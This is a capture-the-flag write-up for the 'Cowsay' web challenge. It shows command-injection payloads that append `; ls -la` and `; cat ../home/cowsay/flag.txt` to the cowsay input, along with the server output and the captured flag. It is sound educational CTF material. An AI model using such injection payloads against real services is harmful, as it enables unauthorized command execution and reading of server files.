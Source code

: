 # Cowsay (150)
#### web - [Virginia TSA Technosphere 2022 CTF](../main.md)

## Challenge description:
> Let your business be cowsay enabled! Enjoy the finest cowsay experience thanks to our revolutionary, and secure API.
>
> [https://vatsa-cowsay.chals.io/](https://vatsa-cowsay.chals.io/)

## Solution
Cowsay is a command, leading me to believe this was a command injection. 

Trying several payloads, eventually `*munches grass* ; ls -la` worked.
```
 _________________ 
< *munches grass* >
 ----------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 24
drwxr-xr-x    1 root     root          4096 Apr 14 16:40 .
drwxr-xr-x    1 root     root          4096 Apr 14 16:46 ..
-rw-r--r--    1 root     root           852 Mar 11 15:33 app.py
drwxr-xr-x    2 root     root          4096 Apr 14 16:40 cowsay
-rw-r--r--    1 root     root           384 Feb 23 12:14 requirements.txt
drwxr-xr-x    2 root     root          4096 Apr 14 16:40 templates
```
Traversing the directory system, I eventually came across the flag with the payload `*munches grass* ; cat ../home/cowsay/flag.txt`

```
 _________________ 
< *munches grass* >
 ----------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
**********************
```
<details> 
    <summary>Flag</summary>
flag{c0ws4Y_Inj3ct10N}
</details>